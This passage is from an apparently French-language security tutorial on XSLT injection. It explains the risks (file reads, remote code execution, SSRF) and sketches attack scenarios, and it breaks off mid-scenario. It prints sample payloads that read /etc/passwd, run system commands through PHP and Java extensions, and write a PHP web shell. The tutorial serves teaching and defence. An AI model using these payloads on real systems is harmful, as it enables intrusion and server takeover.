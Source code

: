 **Définition :** Une vulnérabilité qui permet à un attaquant d'injecter du code XSLT malveillant dans une feuille de style XSLT non validée, conduisant à :

* ✅ Lecture de fichiers arbitraires (LFI - Local File Inclusion)
* ✅ Exécution de code à distance (RCE - Remote Code Execution)
* ✅ Server-Side Request Forgery (SSRF)
* ✅ Divulgation d'informations sensibles
* ✅ Déni de service (DoS)
* ✅ Contournement de Same-Origin Policy (navigateurs)

***

#### 🔍 Pourquoi XSLT est dangereux ?

**1. Fonctions puissantes intégrées**

```xml
<!-- Lire des fichiers -->
<xsl:copy-of select="document('/etc/passwd')"/>

<!-- Exécuter du PHP -->
<xsl:value-of select="php:function('system','whoami')"/>

<!-- Exécuter du Java -->
<xsl:value-of select="Runtime:exec(Runtime:getRuntime(),'calc.exe')"/>
```

**2. Extensions dangereuses (EXSLT)**

```xml
<!-- Écrire des fichiers -->
<exploit:document href="shell.php" method="text">
  <?php system($_GET['cmd']); ?>
</exploit:document>
```

**3. Traitement non validé**

* Si l'application accepte des fichiers XSLT de l'utilisateur
* Si l'application construit dynamiquement des XSLT avec des données non filtrées

***

#### 📊 Scénarios d'attaque

```
┌─────────────────────────────────────────────────────────┐
│                    SCÉNARIO 1                           │
│         Application de génération de rapports           │
├─────────────────────────────────────────────────────────┤
│ 1. Utilisateur upload un fichier XML                   │
│ 2. Application applique une transformation XSLT        │
│ 3. Attaquant injecte du XSLT malveillant               │
│ 4. → Lecture de /etc/passwd                            │
└─────────────────────────────────────────────────────────┘

┌─────────────────────────────────────────────────────────┐
│                    SCÉNARIO 2                           │
│            API REST avec transformation XML             │
├─────────────────────────────────────────────────────────┤
│ 1. API accepte XML + référence à XSLT                  │
│ 2. Serveur charge et applique le XSLT                  │
│ 3. Attaquant fournit XSLT malveillant                  │
│ 4. → Exécution de code sur le serveur                  │
└─────────────────────────────────────────────────────────┘

┌─────────────────────────────────────────────────────────┐
│                    SCÉNARIO 3                           │
│         Application web avec XSLT côté client           │
```